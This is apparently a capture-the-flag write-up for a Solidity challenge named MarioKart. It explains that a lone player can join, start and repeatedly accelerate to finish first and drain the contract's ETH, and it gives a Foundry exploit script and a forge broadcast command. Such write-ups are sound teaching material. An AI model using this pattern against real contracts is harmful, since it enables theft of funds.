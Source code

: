 
## Exploitation

To solve the challenge, you only need a single player. The exploit script joins the race, starts it by calling `startRace()`, and then repeatedly calls `accelerate()` to quickly reach the finish line. Since the contract awards the entire balance to the first finisher, you can drain all ETH from the contract by being the only participant and finishing first. No special items or advanced tricks are required—just brute force movement.

```solidity
function run() external {
    vm.startBroadcast();
    marioKart = MarioKart(vm.envAddress("MK")); // Replace with actual contract address
    marioKart.joinRace{value: 1 ether}("Mario");
    marioKart.startRace();
    for(uint256 i= 1; i <= 100; i++){
        marioKart.accelerate();
    }
    vm.stopBroadcast();
}
```

See the full exploitation script [here](script/Exploit.s.sol).

### Command to Deploy the Script

```bash
forge script script/Exploit.s.sol:Exploit --broadcast --rpc-url $RPC_URL --private-key $PK
```

Please kindly save the variables in the `.env` file. However, and please don't save your private key in plaint text in production!

---